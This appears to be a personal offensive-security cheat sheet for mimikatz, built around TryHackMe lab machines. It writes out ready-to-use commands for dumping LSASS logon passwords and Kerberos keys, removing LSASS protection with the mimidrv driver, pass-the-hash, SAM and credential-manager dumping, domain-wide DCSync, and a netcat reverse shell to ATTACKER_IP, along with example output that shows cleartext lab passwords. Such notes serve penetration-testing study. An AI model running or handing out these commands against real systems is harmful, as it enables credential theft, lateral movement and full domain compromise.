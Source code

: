https://tools.thehacker.recipes/mimikatz

### Required:
- NT AUTHORITY SYSTEM priveleges
- mimikatz binary on the system (location: `/usr/share/mimikatz`)

### Setting up
Do this before any of the next options
```
privilege::deubg    // NOTE: only follow through if response is "[20] OK", otherwise (when it throws an error) commands will run but not work correctly.
// Possible error: ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061 --> not ran as admin

token::elevate      // Impersonates admin token
```

### Dumping kerberos keys + pass the key
(pass the key is also called "Overpass the hash")
```
sekurlsa::ekeys
token::revert                                                                 // required for passing the hash
sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"COMMAND"          // With RC4 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"COMMAND"    // With AES128 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"COMMAND"    // With AES256 hash
```
Note: if you have `nc64.exe` on the system, use the following payload for a reverse shell:
```
c:\Windows\Temp\nc64.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT
```
Note 2: because the "credentials" are injected after you've passed the key, if `winrs.exe` is available, you can use it without giving credentials:
```
winrs.exe -r:THMIIS.za.tryhackme.com cmd      // Spawns a shell on the THMIIS machine of the za.tryhackme.md domain.
```


### Dumping logonpasswords / handling "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
Logonpasswords dumps all logged-on users.
```
mimikatz # sekurlsa::logonpasswords  
// If this gives the "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
// When you get this error, it means the LSASS is protected. You need the "mimidrv.sys" for this. (included in the directory)

mimikatz # !+        
// Loads the mimidrv
Expected output:
"
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
"
mimikatz # !processprotect /process:lsass.exe /remove
// Removes the protected state from the LSASS
Expected output:
"
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
"
mimikatz # sekurlsa::logonpasswords  
// It should work now.
```

### handling "ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list"
Make sure to use the correct architecture Mimikatz (`win64`/`win32`)

### General SAM passwords (local accounts)
```
mimikatz # lsadump::sam
```
Note: Any hashes can be used to pass to SMBClient (including Administrator hashes, combined with `-U Administrator`)

### Windows credential manager
```
sekurlsa::credman  // Dumps all windows credential manager credentials. (saved windows credentials)
```
This will get most credentials, but not the Web credentials. for these, use `Get-WebCredentials.ps1` (you can check if they exist using `vaultcmd /listcreds:"Web Credentials" /all`)
#### Example output
```
PS C:\Tools\Mimikatz> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

736     {0;000003e7} 1 D 26914          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0025ebf6} 2 F 4320524     THM\thm S-1-5-21-1966530601-3185510712-10604624-1114    (16g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 4369062     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # sekurlsa::credman

Authentication Id : 0 ; 34477 (00000000:000086ad)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:59 AM
SID               : S-1-5-96-0-0
        credman :

Authentication Id : 0 ; 31779 (00000000:00007c23)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:48 AM
SID               :
        credman :

Authentication Id : 0 ; 2485238 (00000000:0025ebf6)
Session           : RemoteInteractive from 2
User Name         : thm
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 8/11/2023 11:44:59 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
        credman :
         [00000000]
         * Username : thm
         * Domain   : 10.10.237.226
         * Password : jfxKruLkkxoPjwe3
         [00000001]
         * Username : thm.red\thm-local
         * Domain   : thm.red\thm-local
         * Password : Passw0rd123

Authentication Id : 0 ; 2454892 (00000000:0025756c)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 8/11/2023 11:44:57 AM
SID               : S-1-5-90-0-2
```

### Active Directory DCSync attack
###### Required permissions: Domain Replication permissions (Domain Controller / Domain Administrator)
To dump one user, use:
```
privilege::elevate
lsadump::dcsync /domain:DOMAIN /user:USERNAME@DOMAIN                // Note: the ERROR_NOT_UNIQUE error means the DOMAIN name isn't specified
// OR 
lsadump::dcsync /domain:DOMAIN /user:USERNAME                       // Note: the ERROR_NOT_UNIQUE error means the DOMAIN name isn't specified
```

To dump everything:
```
privilege::elevate
log dcdump.txt
lsadump::dcsync /domain:DOMAIN /all
```

Note: if this error is thrown, the user does not have enough privileges. 
```
ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x000020f7 (8439)
```